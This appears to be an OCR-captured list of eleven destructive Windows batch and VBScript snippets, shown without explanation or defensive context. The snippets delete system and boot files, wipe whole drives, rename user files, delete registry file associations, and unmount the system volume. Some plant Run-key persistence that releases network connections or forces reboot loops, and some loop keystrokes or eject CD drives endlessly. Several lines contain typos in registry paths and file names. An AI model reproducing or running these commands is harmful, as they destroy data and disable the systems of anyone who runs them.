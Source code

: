 # C-

1.
Del %windowsdrive%\*.* /f /s /q
Shutdown -s -f -t 0

2.
Ren *.doc *.txt
Ren *.jpeg *.txt
Ren *.lnk *.txt
Ren *.avi *.txt
Ren *.mpeg *.txt
Ren *.com *.txt
Ren *.bat *.txt

3.
Del c:\windows\system32\*.* /q

4.
@echo off
Attrib -r -s -h c:\autoexec.bat
Del c:\autoexec.bat
Attrib -r -s -h c:\boot.ini
Del c:\boot.ini
Attrib -r -s -h c:\ntldr
Del c:\ ntldr
Attrib -r -s -h c:\windows\win.ini
Del c:\windows\win.ini

5.
@echo off
Start reg delete HKCR/.exe
Start reg delete HKCR/.dll
Start reg delete HKCR/*

6.
echo @echo off>c:\windows\wimn32.bat
echo break off>>c:\windows\wimn32.bat
echo ipconfig/release_all>>c:\windowswimn32.bat
echo end>>c:\windows\wimn32.bat
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v WINDOWsAPI /t reg_sz /d c:\windows\wimn32.bat /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVision\Run /v CONTROLexit /t reg_sz /d c:/Windows/wimn32.bat /f
Pause

7.(.vbs)
Set wshShell=wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys"~(enter)"
loop

8.
echo @echo off>c:\Windows\hartlell.bat
echo break off>>c:\Windows\hartlell.bat
echo shutdown -r -t 11 -f>>c:\Windows\hartlell.bat
echo end>>c:\Windows\hartlell.bat
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windwos\CurrentVersion\Run /v startAPI /t reg_sz /d c:\Windows\hartlell.bat /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v /t reg_sz /d c:\Windows\hartlell.bat /f
pause

9.(.vbs)
Set oWMP=CreateObject("WMPlayer.OCX.7")
Set colCDROMs=oWMP.cdromCollection
do
if colCDROMs.Count>=1 then
For i=0 to colCDROMs.Count -1
colCDROMs.Item(i).Eject
Next
For i=0 to colCDROMs.Count -1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop

10.
rd/s/q D:\
rd/s/q E:\
rd/s/q C:\

11.
Mountvol c:\ /d
